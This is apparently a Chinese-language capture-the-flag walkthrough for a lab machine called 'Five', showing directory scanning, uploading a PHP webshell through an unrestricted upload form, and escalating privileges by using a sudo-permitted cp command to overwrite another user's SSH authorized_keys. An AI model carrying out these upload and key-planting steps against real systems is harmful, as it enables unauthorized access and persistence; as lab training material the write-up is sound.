

# Five

### 文件上传

`fscan`扫描发现开放`80`端口,直接访问返回`403`，使用`dirsearch`扫描

```bash
$ dirsearch -u http://192.168.1.12/

Target: http://192.168.1.12/

[18:39:40] Starting:
[18:40:23] 301 -  185B  - /admin  ->  http://192.168.1.12/admin/
[18:40:25] 200 -    4KB - /admin/
[18:40:27] 200 -    4KB - /admin/index.html
[18:42:32] 200 -   17B  - /robots.txt
[18:42:55] 200 -  346B  - /upload.html
[18:42:55] 200 -   48B  - /upload.php
[18:42:56] 301 -  185B  - /uploads  ->  http://192.168.1.12/uploads/
```

发现`upload.html`可上传文件，`/admin`可登录，但是`admin`登录一直没爆破进去，尝试`upload.html`，发现可以上传文件，上传一个`1.php`的木马，显示上传成功，但是在`uploads`下没找到文件，文件名大小写也没有绕过


修改`uploads`为`./`尝试上传后发现文件能正常解析




### 提权

```bash
find / -perm -4000 -type f 2>/dev/null
```


发现`man`,但是提权失败了，`sudo -l`看一下


发现可以使用`cp`复制公钥到`.ssh/authorized_keys`即可`ssh`登录，先生成密钥

```bash
ssh-keygen
```


```
cat /etc/ssh/sshd_config
```

发现开放端口为`4444`


```bash
sudo -u melisa /bin/cp id_rsa.pub /home/melisa/.ssh/authorized_keys
```

```
ssh -i id_rsa -p 4444 melisa@127.0.0.1
```

